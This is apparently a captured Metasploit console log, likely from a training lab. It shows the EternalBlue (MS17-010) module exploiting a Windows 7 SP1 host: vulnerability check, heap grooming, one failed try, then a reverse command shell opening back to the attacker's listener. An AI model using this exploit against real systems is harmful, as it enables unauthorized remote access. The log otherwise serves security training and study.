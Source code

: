 ```text
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.2.105.89:4444
[*] 10.10.236.38:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.236.38:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.236.38:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.236.38:445 - The target is vulnerable.
[*] 10.10.236.38:445 - Connecting to target for exploitation.
[+] 10.10.236.38:445 - Connection established for exploitation.
[+] 10.10.236.38:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.236.38:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.236.38:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.236.38:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.236.38:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.236.38:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.236.38:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.236.38:445 - Sending all but last fragment of exploit packet
[*] 10.10.236.38:445 - Starting non-paged pool grooming
[+] 10.10.236.38:445 - Sending SMBv2 buffers
[+] 10.10.236.38:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.236.38:445 - Sending final SMBv2 buffers.
[*] 10.10.236.38:445 - Sending last fragment of exploit packet!
[*] 10.10.236.38:445 - Receiving response from exploit packet
[+] 10.10.236.38:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.236.38:445 - Sending egg to corrupted connection.
[*] 10.10.236.38:445 - Triggering free of corrupted buffer.
[-] 10.10.236.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.236.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.236.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.236.38:445 - Connecting to target for exploitation.
[+] 10.10.236.38:445 - Connection established for exploitation.
[+] 10.10.236.38:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.236.38:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.236.38:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.236.38:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.236.38:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.236.38:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.236.38:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.236.38:445 - Sending all but last fragment of exploit packet
[*] 10.10.236.38:445 - Starting non-paged pool grooming
[+] 10.10.236.38:445 - Sending SMBv2 buffers
[+] 10.10.236.38:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.236.38:445 - Sending final SMBv2 buffers.
[*] 10.10.236.38:445 - Sending last fragment of exploit packet!
[*] 10.10.236.38:445 - Receiving response from exploit packet
[+] 10.10.236.38:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.236.38:445 - Sending egg to corrupted connection.
[*] 10.10.236.38:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.236.38
[+] 10.10.236.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.236.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.236.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Command shell session 1 opened (10.2.105.89:4444 -> 10.10.236.38:49170 ) at 2022-01-19 00:53:15 -0500


Shell Banner:
Microsoft Windows [Version 6.1.7601]
```